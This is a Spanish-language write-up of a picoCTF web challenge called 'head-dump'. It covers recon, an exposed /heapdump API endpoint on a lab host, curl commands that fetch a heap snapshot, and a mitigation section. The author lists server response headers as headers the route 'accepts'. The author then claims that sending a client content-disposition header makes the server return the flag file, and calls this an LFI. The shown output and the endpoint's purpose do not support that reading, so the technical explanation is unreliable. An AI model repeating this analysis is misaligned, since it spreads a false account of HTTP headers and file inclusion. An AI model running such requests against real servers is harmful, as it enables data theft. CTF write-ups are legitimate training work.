

# head-dump

## Enunciado

Welcome to the challenge! In this challenge, you will explore a web application and find an endpoint that exposes a file containing a hidden flag.

The application is a simple blog website where you can read articles about various topics, including an article about API Documentation. Your goal is to explore the application and find the endpoint that generates files holding the server’s memory, where a secret flag is hidden.

## Recon

Al entrar en la web, veo una web básica de noticias sobre picoCTF:


## Encontrar la documentación de la API

La documentación de la API está expuesta en la siguiente publicación de la web:


## Revisar la documentación de la API

El nombre del CTF es `head-dump` y hay una ruta dentro de la documentación de la API, lo cual es una pista bastante grante y contiene en siguiente comando:

```bash
curl -X 'GET' \
  'http://xebec.cylabacademy.net:22258/heapdump' \
  -H 'accept: */*'
```

Con la siguiente respuesta y todas las cabeceras que acepta la ruta en la petición:

```
accept-ranges: bytes 
cache-control: public,max-age=0  
connection: keep-alive  
content-disposition: attachment; filename="heapdump-1794260559488.heapsnapshot"  
content-length: 11992200  
content-type: application/octet-stream  
date: Mon,09 Nov 2026 21:42:40 GMT  
etag: W/"b6fc88-1a1c2436871"  
keep-alive: timeout=5  
last-modified: Mon,09 Nov 2026 21:42:39 GMT 
x-powered-by: Express
```

## Extraer la flag 

La petición acepta una cabecera que es muy interesante porque hace referencia a un archivo, eso me hace pensar si podré meter ahí otro archivo y que me devuelva los archivos que yo quiera sin comprobación alguna. La cabecera es la siguiente:

```
content-disposition: attachment; filename="heapdump-1794260559488.heapsnapshot" 
```

Lo que hago en la petición final es cambiar el archivo `heapdump-1794260559488.heapsnapshot` por `flag`.

```bash
curl -X 'GET' \                                                             
  'http://xebec.cylabacademy.net:22258/heapdump' \
  -H 'content-disposition: attachment; filename="flag"' > flag.txt
```

Este comando puede reducirse de la siguiente manera eliminando cierta parte de la cabecera:

```bash 
curl 'http://xebec.cylabacademy.net:22258/heapdump' -H 'content-disposition: filename="flag' > flag.txt
```

Se mueve a `flag.txt` con `>` para poder analizarlo de forma más cómoda y sencilla.

En el archivo `flag.txt` se ve de forma clara la flag:



## Explicación

La API confía en una cabecera controlada por el cliente (`content-disposition`) para decidir qué archivo devolver, sin validar el nombre. Eso convierte el fallo en una vulnerabilidad LFI, aunque no esté en la URL como en un `?page=../../etc/hosts`, que es lo que se busca normalmente.

## Lo aprendido

- Un LFI no siempre está en la URL. Un parámetro de cabecera que decide qué archivo se sirve puede ser igual de explotable.
- La documentación de la API es recon de primera línea: en ella encontré el endpoint `/heapdump` y su forma de uso.
- Cualquier valor que el cliente envía y el servidor usa para construir rutas debe considerarse no confiable.
## Mitigación

No construir rutas del sistema de ficheros con datos enviados por el cliente. Si hace falta un nombre, usar un identificador que el servidor mapee a un archivo conocido, o aplicar `path.basename()` y comprobar el resultado contra una lista blanca. Además, el endpoint de heap dumps no debería estar expuesto en producción.